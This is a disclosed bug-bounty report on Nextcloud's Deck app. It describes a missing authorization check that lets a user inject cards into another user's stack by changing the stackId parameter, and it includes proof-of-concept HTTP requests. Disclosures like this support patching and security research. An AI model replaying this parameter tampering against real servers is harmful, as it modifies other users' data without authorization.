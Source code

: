 # Access Control: Inject tasks into other users decks

## Report Details
- **Report ID**: 867052
- **URL**: https://hackerone.com/reports/867052
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-06T09:00:48.648Z
- **Disclosed**: 2021-02-02T13:20:48.931Z

## Reporter
- **Username**: dedoc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
When moving a task to another deck a request is made to /apps/deck/cards/XXXX. in the request the destination stackId parameter is used. When a user changes the parameter to that of a stack not belonging to him the task is still added.

### PoC

Create a card:
```
POST /apps/deck/cards HTTP/1.1
[...]

{"title":"SOME_TEST","stackId":1,"type":"plain"}
```
Move the Card:
```
PUT /apps/deck/cards/13 HTTP/1.1
[...]

{"title":"SOME_TEST","description":"","stackId":2,"type":"plain","lastModified":1588755341,"lastEditor":null,"createdAt":1588755341,"labels":null,"assignedUsers":null,"attachments":null,"attachmentCount":null,"owner":"test1","order":999,"archived":false,"duedate":null,"deletedAt":0,"commentsUnread":0,"id":13,"overdue":0}
```

When now intercepting and changing the `stackId` to `6` (that of another user) the server responds with a `200 OK` and the card is added to the stack of the receiving user.

## Impact

Deck of other users can be polluted.  Missing authorization check.

## Attachments
No attachments
